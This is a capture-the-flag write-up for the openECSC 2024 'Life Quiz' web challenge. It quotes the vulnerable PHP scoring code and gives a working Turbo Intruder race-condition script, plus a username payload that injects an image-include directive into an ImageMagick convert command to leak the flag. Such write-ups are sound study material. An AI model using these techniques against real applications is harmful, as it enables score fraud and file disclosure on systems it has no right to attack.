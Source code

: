 # openECSC 2024 - Round 1

## [web] Life Quiz (33 solves)

Try out our quiz to win a incredible prize!

Site: [http://lifequiz.challs.open.ecsc2024.it](http://lifequiz.challs.open.ecsc2024.it)

Author: Stefano Alberto <@Xato>

## Overview

The application is a quiz platform, you need to answer all 15 questions right to get the final prize.

The right answer for a specific question is selected randomly between the 4 possible answers for every request.  

The final prize consists of an image of a trophy with the username of the winner.

Finally, the flag is stored as one of the prizes, written in the image stored in `/prizes/flag.jpg`.


## Race condition

The scoring system is vulnerable to race condition. We can submit multiple answers for the same question to get more tries and, on average, more than one pont for every question.

Indeed, the application uses two separated queries to update the score and then to increment the question id in the database.

Here's the vulnerable code

```php
// If the user has submitted an answer, check if it is correct
if (isset($_POST['answer'])) {
    $answer = $_POST['answer'];
    $correct_answer = $answers[array_rand($answers)];
    
    echo "<h3 class='mb-3'>Question $question_id</h3>";
    $question_id++;
    if ($answer === $correct_answer) {
        echo "<p>Correct!</p>";
        
        $sql = "UPDATE users SET points = points+1 WHERE id = '$user'";
        $conn->query($sql);
    } else {
        echo "<p>Incorrect!<br>The correct answer was: $correct_answer</p>";
    }
    
    if ($question_id > $QUESTION_N) {
        echo "<p>You answered all the questions!</p>";
        echo "<a class='btn btn-primary my-3' href='quiz.php'>Next</a><br>";
    } else {
        echo "<a class='btn btn-primary my-3' href='quiz.php'>Next question</a><br>";
    }
    
    $sql = "UPDATE users SET question_id = $question_id WHERE id = '$user'";
    $conn->query($sql);
    $conn->close();
    exit();
}
```

We can exploit the race condition using the Burp extension "Turbo Intruder" with this request

```http
POST /quiz.php HTTP/1.1
Host: lifequiz.challs.open.ecsc2024.it
Content-Length: 9
Origin: http://lifequiz.challs.open.ecsc2024.it
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=%s

answer=%s
```

And this script

```py
import time
import re

last = 0

def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=100,
                           engine=Engine.BURP
                           )
                           
    sessions = ['312f7c67ffe2901eec3ba052554c21a2','07ac239c20a11383f5f7b80fcb9a4176','8986b0fce5445282aaebde9e23420bd3']
    sessions += ['878a297c6a7b164e1daf7c079a82b3d4', '31cf002193adfdc114ba9f9d9948284e','9a44ca0c8da706c662cf06237da883b4']
    
    answers = ['42', 'To+express+emotions', 'To+be+free', 'Yes', 'In+the+city']

    global last
    
    for i in range(20):
        ans_id = ((last) % 5) 
            
        for session in sessions:
            engine.queue(target.req, [session, answers[ans_id]], label=str(ans_id) ,gate='race' + str(i))
    
        engine.openGate('race' + str(i))

        time.sleep(1)

def handleResponse(req, interesting):
    table.add(req)
    
    if 'Correct' in req.response:
        req.label = 'Correct'

    global last
    
    m = re.search('Question (\\d+)', str(req.response))
    
    if (m):
        last = int(m.group(1))
```

Note that the script doesn't reuses the same session cookie to perform the concurrent requests.
This is due to the fact that php locks the session id to avoid concurrency issues, making the race condition impossible to exploit using a single session.

By submitting multiple answers to the same question, we get on average more than one point for every question.
By repeating this process we can obtain the required score and get the prize.


## Image inclusion

The prize image is generated with the following command

```php
$cmd = "convert -draw " . escapeshellarg("text 0,1219 \"$username\"") . " -pointsize 100 -gravity Center /trophy.jpg /prizes/$user.jpg &";
```

Using our username we can escape from the string and modify the `draw` parameter of the `convert` command.

By looking at the command line documentation of ImageMagick we find out that it's possible to include an image using the `image` keyword in the `draw` option.

We can include the image containing the flag by setting our username to the following payload, respecting the 36 character limitation.

`"image Src 0,0 0,0 "/prizes/flag.jpg`

Then, using the race condition, we can win the game and get the prize with the flag.
